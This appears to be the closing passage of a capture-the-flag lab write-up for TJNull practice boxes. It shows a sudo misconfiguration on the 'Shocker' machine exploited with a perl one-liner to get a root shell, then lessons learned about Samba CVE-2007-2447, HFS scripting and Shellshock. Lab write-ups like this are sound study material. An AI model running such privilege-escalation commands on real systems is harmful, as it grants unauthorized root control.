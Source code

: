 ```
$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
$ sudo perl -e 'exec "/bin/sh";'
whoami
root
```

## Lessons Learned
This round of TJNull boxes provided excellent opportunities for review

* Lame
    * This was my first exposure to CVE-2007-2447.
    * It was also a nice reminder that SMB shares that allow `anonymous` access do not always contain files that will lead to a foothold. Instead, the service itself can be vulnerable!
* Optimum
    * This was the first time that I needed to use HFS scripting, and the syntax was not immediately intuitive to me.
* Shocker
    * While I have encountered the Shellshock vulnerability previously, the name of the script file(s) in `/cgi-bin/` differed. This reinforced the importance of thorough content discovery/directory busting.